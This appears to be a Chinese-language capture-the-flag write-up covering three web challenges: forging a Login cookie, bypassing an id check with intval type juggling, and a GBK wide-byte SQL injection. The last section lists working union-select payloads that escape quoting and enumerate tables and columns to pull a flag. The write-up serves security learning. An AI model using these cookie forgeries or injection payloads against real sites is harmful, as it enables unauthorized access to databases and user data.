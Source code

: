 ### COOKIE
提示很明显，访问页面开始给用户设置`Cookie，Login=0`
再次访问提示类型权限不足，抓包修改`Cookie，Login=1`
绕过，得到flag
<Br />

### MYSQL
根据提示的robots.txt文件中，看见sql.php源码
```php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
```
审计后得知，满足两个条件
 - `intval($_GET[id])=1024`
 - `$_GET[id]!=1024`

即可得到flag
```
url?id=1024.1 //payload

1024.1被强转之后变为1024，放入sql语句中可以得到数据
同时1024.1!=1024
```
<Br />

### GBK Injection
题目提示的很明显，页面也没有设置任何编码格式，即为默认的GBK
页面也显示了SQL语句
首先先确认注入点

```
url?id=1' // 页面回显信息正常，发现'被转义为\'，根据GBK编码，尝试宽字节绕过
url?id=1%df' // 页面出现报错信息，并且转移函数绕过成功，继续确认
url?id=1%df' or 1 %23 // 页面回显正常，并且没有过滤# 与 or和空格，注入点确定
```
开始得到数据
```
url?id=1%df' order by 2 %23 // order by 3页面报错，order by 2页面正常，确认为2列
url?id=1%df' and 0 union select 1,2 %23 //第二列数据可直接查看
url?id=1%df' and 0 union select 1,database() %23 //sae-chinalover
url?id=1%df' and 0 union select 1,group_concat(table_name) from information_schema.tables where table_schema =  0x7361652d6368696e616c6f766572 %23 // ctf,ctf2,ctf3,ctf4,news
url?id=1%df' and 0 union select 1,group_concat(column_name) from information_schema.columns where table_name =  0x63746634 %23 //id,flag
url?id=1%df' and 0 union select id,flag from ctf4 %23 // nctf{*****}
```
<Br />

